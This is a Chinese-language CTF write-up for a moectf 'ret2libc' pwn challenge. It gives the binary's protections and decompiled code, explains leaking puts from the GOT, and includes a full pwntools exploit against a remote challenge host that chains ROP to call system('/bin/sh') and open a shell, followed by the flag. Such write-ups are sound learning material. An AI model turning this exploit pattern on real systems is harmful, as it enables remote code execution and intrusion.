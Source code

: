 # ret2libc

pwn系列的出题人是不是给题施了什么魔法？

这题本来只是个普通的ret2libc，没啥好写的，但是我没有按正常方法做出来，甚至于我都不知道怎么成功的。

-   Arch:     amd64-64-little
    <Br>RELRO:    Partial RELRO
    <Br>Stack:    No canary found
    <Br>NX:       NX enabled
    <Br>PIE:      No PIE (0x400000)

无pie无canary，rop最普通的入门配置。程序跟比赛中其他的rop系列差不多，只是这次main中没有调用system了。

```c
undefined8 main(void)
{
  puts("Go Go Go!!!");
  vuln();
  return 0;
}
```

vuln就更直白了，摆在那里给你溢出，装都不装一下。

```c
void vuln(void)
{
  undefined local_48 [64];
  read(0,local_48,112);
  return;
}
```

复习一下ret2libc思路。因为system和bin_sh没有在程序中出现，所以我们要把rop的目标放到程序使用的libc中。可是libc加载时基地址会随机偏移，我们无法准确知道要跳转的地址。但是libc中所有symbols相对于libc基地址的偏移是固定的，因此我们可以泄露出一个函数加载时的地址，减去其在libc中的偏移，得到当前libc加载地址，从而推断要使用的其他地址。至少需要两次rop链，一次泄露地址一次getshell。

main函数里使用了puts，那泄露puts肯定是首选的，第一是puts只需要一个参数，比较简单，第二是只能泄露出程序中已经使用过的函数，好像是因为没使用过的函数got表不会绑定，从而无法泄露。泄露方法很简单，把puts函数的got表放进rdi，再调用puts的plt。

接下来才到了最大的问题。泄露地址后要填写返回地址，我尝试了main的开始和vuln的开始，都不行。最后在调试的时候无意中记录了一个地址，vuln的返回地址，尝试返回这个返回地址时成功了。exp如下。

```python
from pwn import *
p=remote("124.223.158.81",27006)
puts_plt=0x00401064
puts_got=0x00404018
pop_rdi=0x0040117e
ret_addr=0x004011a7
libc_bin_sh=0x00000000001d8698
libc_puts=528080
libc_system=331104
puts_addr=0x00007f0a01939ed0
payload=b'a'*0x48+p64(pop_rdi)+p64(puts_got)+p64(puts_plt)+p64(ret_addr)
p.sendafter("Go Go Go!!!",payload)
p.recvuntil(b'\n')
puts_addr=u64(p.recv(6).ljust(8,b'\x00'))
libc_base=puts_addr-libc_puts
system_addr=libc_base+libc_system
bin_sh=libc_base+libc_bin_sh
payload=b'a'*0x48+p64(pop_rdi)+p64(bin_sh)+p64(system_addr)+p64(ret_addr)
p.send(payload)
p.interactive()
```

0x004011a7对应vuln的ret语句，我百思不得其解，这也行？返回到main或者vuln都会EOF，反而这个行。能返回还不是最离谱的，能填写第二次rop链才离谱。不懂这第二次rop链怎么被接收进去的，总之长个心眼，以后到处都返回不了就返回当前漏洞函数的返回地址。真的好离谱，出题人绝对会魔法。

- ### Flag
  > moectf{118c_15_cp20924m5_8357_f213nd_15n7_17}